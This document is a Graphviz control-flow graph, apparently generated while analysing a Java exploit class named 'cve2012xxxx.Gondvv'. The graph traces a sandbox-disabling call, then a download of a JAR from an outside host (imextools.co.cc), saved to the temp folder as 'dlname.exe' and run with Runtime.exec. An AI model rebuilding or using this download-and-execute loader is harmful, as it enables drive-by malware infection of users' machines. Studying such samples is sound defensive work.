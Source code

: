 digraph "" {
    "r0 := @this: cve2012xxxx.Gondvv"
    "load.r r0"
    "r0 := @this: cve2012xxxx.Gondvv"->"load.r r0";
    "virtualinvoke <cve2012xxxx.Gondvv: void disableSecurity()>"
    "load.r r0"->"virtualinvoke <cve2012xxxx.Gondvv: void disableSecurity()>";
    "new java.net.URL"
    "virtualinvoke <cve2012xxxx.Gondvv: void disableSecurity()>"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "push \"http://imextools.co.cc/g.jar\""
    "dup1.r"->"push \"http://imextools.co.cc/g.jar\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://imextools.co.cc/g.jar\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>";
    "store.r r0"
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"->"store.r r0";
    "new java.io.FileOutputStream"
    "store.r r0"->"new java.io.FileOutputStream";
    "store.r $r5"
    "new java.io.FileOutputStream"->"store.r $r5";
    "load.r $r5"
    "store.r $r5"->"load.r $r5";
    "new java.lang.StringBuilder"
    "load.r $r5"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"java.io.tmpdir\""
    "dup1.r"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"dlname.exe\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"dlname.exe\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"dlname.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"load.r $r5";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"
    "load.r $r5"->"virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"->"load.r r0";
    "push 0L"
    "load.r r0"->"push 0L";
    "push 16777216L"
    "push 0L"->"push 16777216L";
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"
    "push 16777216L"->"virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>";
    "pop"
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"->"pop";
    "pop"->"load.r $r5";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r5"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"push \"java.io.tmpdir\"";
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"dlname.exe\"";
    "push \"dlname.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "ifnull load.r r0"
    "load.r r0"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "load.r r0"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "virtualinvoke <java.lang.Process: int waitFor()>"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
}
